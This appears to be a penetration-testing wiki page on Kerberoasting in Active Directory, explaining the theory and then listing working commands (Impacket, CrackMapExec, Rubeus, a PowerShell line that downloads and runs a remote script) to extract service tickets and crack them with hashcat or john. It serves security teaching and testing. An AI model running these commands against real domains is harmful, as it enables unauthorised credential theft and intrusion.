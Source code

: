 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1558.003
---
```


# Kerberoast

## Theory

When asking the KDC \(Key Distribution Center\) for a Service Ticket \(ST\), the requesting user needs to send a valid TGT \(Ticket Granting Ticket\) and the SPN \(Service Principal Name\) of the service wanted. If the TGT is valid, and if the SPN exists, the KDC sends the ST to the requesting user.

The ST is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a SPN for a service, he can request a ST for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline. This is Kerberoasting.

## Practice

{% hint style="warning" %}
Unlike [ASREProasting](asreproast.md), this attack can only be carried out with a prior foothold \(valid domain credentials\).
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) \(Python\) can perform all the necessary steps to request a ST for a service given its SPN and valid domain credentials.

```bash
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter
```

Another alternative is the [kerberoast](https://github.com/skelsec/kerberoast) pure-python toolkit.

```bash
python3 kerberoast spnroast kerberos+pass://"domain"\\"user":"password"@"target" -u "target_user" -r "realm"
```
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```

This can also be achieved with Powershell. Depending on the tool that the tester will use to attempt cracking the ???, the `-OutputFormat` can be set to `hashcat` or `john`.

```bash
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoastables.txt
```
{% endtab %}
{% endtabs %}

[Hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can then be used to try [cracking the hash](../credentials/cracking.md).

```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```

```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```

### Targeted Kerberoasting

If an attacker controls an account with the rights to add an SPN to another \([`GenericAll`](../access-control-entries/#genericall), [`GenericWrite`](../access-control-entries/#genericwrite)\), it can be abused to make that other account vulnerable to Kerberoast \(see [exploitation](../access-control-entries/targeted-kerberoasting.md)\).

{% hint style="info" %}
Controlling a member of the [Account Operators](../privileged-groups.md) group, targeted Kerberoasting can be conducted for the whole domain \(see [exploitation](../access-control-entries/targeted-kerberoasting.md)\).
{% endhint %}

## Resources

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

{% embed url="https://adsecurity.org/?p=2011" caption="" %}

